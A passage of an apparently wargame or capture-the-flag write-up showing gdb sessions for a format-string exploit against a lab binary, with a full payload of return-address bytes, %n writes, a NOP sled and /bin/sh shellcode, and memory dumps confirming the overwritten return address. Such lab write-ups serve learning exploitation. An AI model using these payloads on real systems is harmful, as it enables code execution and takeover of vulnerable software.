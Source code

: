 ```
   0x80483f9:   nop
   0x80483fa:   nop
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>:     mov    eax,0x0
    0x80483f3 <main+79>:    leave  
    0x80483f4 <main+80>:    ret    
    0x80483f5:  nop
    0x80483f6:  nop
    0x80483f7:  nop
    0x80483f8:  nop
    0x80483f9:  nop
    0x80483fa:  nop
    0x80483fb:  nop
(gdb) x/20xw $esp+0x3f0
0xbffffbc0:   0x00000000  0x00000000  0x00000000  0x00000000
0xbffffbd0:   0x00000000  0x00000000  0x00000000  0x08000000
0xbffffbe0:   0xb7e9d515  0xb7ff0590  0x0804841b  0x0000babe
0xbffffbf0:   0x08048410  0x00000000  0xbffffc78  0xbffff850 <- We wrote over the return address!
0xbffffc00:   0x00000002  0xbffffca4  0xbffffcb0  0xb7fe0860
```

Now if we replace SHELLCODEZZZZZZZZ with our actual shellcode, this is the result:
```
(gdb) run $(python -c "print '\xfc\xfb\xff\xbfAAAA\xfd\xfb\xff\xbfAAAA\xfe\xfb\xff\xbfAAAA\xff\xfb\xff\xbf%08x%08x%36x%n%168x%n%263x%n%192x%n' + '\x90'*100 + '\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level09 $(python -c "print '\xfc\xfb\xff\xbfAAAA\xfd\xfb\xff\xbfAAAA\xfe\xfb\xff\xbfAAAA\xff\xfb\xff\xbf%08x%08x%36x%n%168x%n%263x%n%192x%n' + '\x90'*100 + '\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")

Breakpoint 1, 0x080483e9 in main ()
1: x/10i $eip
=> 0x80483e9 <main+69>: call   0x80482ec <printf@plt>
   0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
(gdb) ni
0x080483ee in main ()
1: x/10i $eip
=> 0x80483ee <main+74>: mov    eax,0x0
   0x80483f3 <main+79>: leave  
   0x80483f4 <main+80>: ret    
   0x80483f5:   nop
   0x80483f6:   nop
   0x80483f7:   nop
   0x80483f8:   nop
   0x80483f9:   nop
   0x80483fa:   nop
   0x80483fb:   nop
(gdb) x/40xw $esp
0xbffff7d0:   0xbffff7e0  0xbffffdc7  0x000003ff  0x00160d7c
0xbffff7e0:   0xbffffbfc  0x41414141  0xbffffbfd  0x41414141
0xbffff7f0:   0xbffffbfe  0x41414141  0xbffffbff  0x78383025
```